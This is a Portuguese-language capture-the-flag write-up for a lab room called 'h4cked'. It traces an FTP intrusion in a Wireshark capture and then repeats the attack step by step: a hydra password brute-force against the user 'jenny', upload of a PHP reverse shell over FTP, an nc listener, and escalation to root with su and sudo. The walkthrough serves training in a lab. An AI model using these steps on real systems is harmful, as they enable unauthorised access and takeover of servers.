

# h4cked

---

>#### Write-Up by VESPAS 
>##### ***Written by:*** Augusto Graeml (gra3ml)
>##### ***Redacted by:*** Gabriel Rossetto (R0SSETT0)

__

## Primeira parte
- Siga a ordem dos pacotes no wireshark, durante a etapa de descoberta no FTP
- Após o acesso, clique no pacote de acesso e vá para "follow" , "TCP Stream"
- Leia atentamente os passos que o atacante realizou 
## Segunda parte
-> Rode o hydra no usuário
``` bash
hydra -l jenny -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ftp://<IP>
```
-> Faça upload de uma rev shell pro servidor ftp
- Login no ftp com a senha da jenny
- put arquivo.php (que estava no seu diretório)
- seta as permissões do arquivo (chmod 777 arquivo.php)

-> Setup de um listener na sua máquina com o nc na porta especificada
``` bash
nc -lvnp <PORTA>
```
-> Acesse a rev shell pelo servidor web: ``http://IP_MAQUINA/arquivo.php``

-> **Become root!**
- Seguindo os passos de escalada de privilégio usado pelo atacante:
``` bash
su jenny
sudo su
cd /root
```
#### Voila sua flag!!
##	# Room Finalizada!